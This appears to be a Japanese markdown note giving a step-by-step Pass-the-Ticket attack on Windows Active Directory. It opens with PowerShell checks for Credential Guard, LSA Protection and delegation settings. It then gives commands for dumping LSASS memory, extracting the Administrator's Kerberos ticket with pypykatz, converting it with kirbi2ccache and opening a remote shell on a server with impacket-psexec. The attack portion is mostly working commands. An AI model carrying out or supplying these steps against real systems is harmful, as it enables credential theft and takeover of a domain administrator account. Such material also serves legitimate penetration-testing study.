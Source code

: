 # Pass The Ticket

## 調査

- Creadential Guardの有無
認証情報が仮想化によってホストOSから隔離された保護環境で保護されている。

``` powershell
    Get-CimInstance –ClassName Win32_DeviceGuard –Namespace root¥Microsoft¥Windows¥DeviceGuard
```

VirtualizationBasedSecurityStatusが　2　になっている場合はCreadential Guardされている。

- LSA Protectionの有無
未署名またはMicrosoft以外で署名されたプロセスからメモリ上の認証情報を保護する。

``` powershell
    Get-ChildItem -LiteralPath 'HKLM:¥SYSTEM¥CurrentControlSet¥Control¥Lsa'
```

RunAsPPLに　1　が設定されていればLSA Protectionが有効

- TRUSTED_FOR_DELEGATION がTRUE
- NOT_DELEGATEDがsetされていない。

``` powershell
    Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

## 手順

管理者権限が必要

- 侵入咲で実行
  - Local Security Autehntication Processのdumpファイルの生成
  - zipでの圧縮 鍵付き
  - dmpファイルの転送
- kali(C3で実行)
  - 解凍
  - ケルベロスチケットの抽出
    - pypykatzを使用

        ``` shell
            # pypykatz lsa -k <抽出先ディレクトリ> minidump <ダンプファイル>
            pypykatz lsa -k ./ minidump ./lsass.DMP
        ```

    administaratorのチケットが抽出できる。
  - kirbi2ccasheを使用してKIRBI形式からccache形式に変換

    ``` shell
        kirbi2ccache <AdministraotrのTGTチケットファイル名> Administrator.ccache
        #コマンドのpathが通ってない場合　/usr/bin/mimikerberos-kirbi2cache
    ```

  - Windowsサーバーのシェルの取得

    ``` shell
        # 環境変数 KRB5CCNAMEにチケットファイルのpathを設定
        # impacket-psexecでケルベロス認証の際に設定したチケットを使用する。
        export KRB5CCNAME=Administrator.ccache; impacket-psexec -dc-ip <Windows Server IP address> -target-ip <Windows Server IP address> -no-pass -k mihari.com/Administrator@<ad hostname>.mihari.com
        # -dc-ip ADのip
        # -target-ip 侵入先のip
        # -no-pass パスワード認証しない
        # -k ケルベロス認証する
    ```
